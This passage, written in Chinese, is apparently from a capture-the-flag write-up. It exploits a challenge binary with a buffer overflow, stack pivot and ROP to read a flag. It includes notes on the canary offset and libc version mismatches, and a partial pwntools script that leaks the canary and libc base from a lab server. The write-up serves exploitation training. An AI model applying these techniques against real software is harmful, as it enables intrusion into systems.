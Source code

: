         main_fn_addr + 298,
    )
    ```
    此時我們就不需要那麼多的gadget幫助完成該目標


4. 剩下的open / read / write就和lab差不多

:::success
截至目前為止，我們的流程是
1. 設法利用overflow改變n2的數值，使我們能夠輸入更多shell code
2. 先利用第一次的write輸入stack上的重要資訊
3. 因為n2空間還是太小，所以我們需要先擴大能夠寫入的空間，也就是先利用第一次的stack pivot把shellcode寫上去→main+291
4. 執行shellcode後，使rax變大再跳回去main+298
5. 寫入真正的open / read / write讀出flag
:::

:::warning
注意事項:
1. canary
    因為他有開stack protection，所以一定要對好canary在stack上的位置，可以用動態去看，依照這一題的狀況，他是會在rbp+0x40的地方
2. libc version
    這一題因為要leak libc的base address，並且利用ROP gadget達到syscall的目的，所以一定要確定remote server使用的版本是哪一個，光知道大的版本號是有可能會失敗的，因為像我local端到最後有成功，但跑在remote就爛掉了，和@david學長討論過後的結果就是libc version有問題，實際用docker去看彼此的差異就會發現，右邊是我的→22.04.3，而左邊是實際remote的docker開出來的結果→22.04.2，所以我的作法是把docker中的東西拉出來再使用，包含在local端使用以及找gadget
    ![圖片](https://hackmd.io/_uploads/ByiMMYTHa.png)
    ```bash
    $ docker cp /lib/x86_64-linux-gnu/libc.so.6 /mnt/d/Downloads/
    ```
3. IO problem
    這個問題也是很弔詭，會發現我在最後一個send之前還有一個raw_input()，如果拿掉的話在remote一樣會爛掉，這有可能是IO之類的問題，但總之一定要加
:::
## Exploit - BOF + Stack Pivot + ROP

```python
from pwn import *

r = process('./chal', env={"LD_PRELOAD" : "./libc.so.6"})
r = remote('10.113.184.121', 10056)
context.arch = 'amd64'


# Try to trigger length exploit
payload = b'a' * 20
r.sendafter(b"Haaton's name? ", payload)
print(r.recvlines(2))

# Leak stack info
payload = b'HACHAMA'.ljust(0x8, b'\x00')
r.send(payload)
result = r.recv(0x61)
log.info("[-------------Stack Info-------------]")
for i in range(12):
    log.info(hex(u64(result[i * 8:i * 8 + 8])))
log.info("[-------------Stack Info-------------]")

canary = u64(result[7 * 8:7 * 8 + 8])
libc_start_main = u64(result[9 * 8:9 * 8 + 8]) - 0x80
libc_base_addr = libc_start_main - 0x29d90 + 0x80
main_fn_addr = u64(result[11 * 8:11 * 8 + 8])
code_segment_base = main_fn_addr - 0x331

log.success(f'Canary = {hex(canary)}')
log.success(f'libc start main base = {hex(libc_start_main)}')
```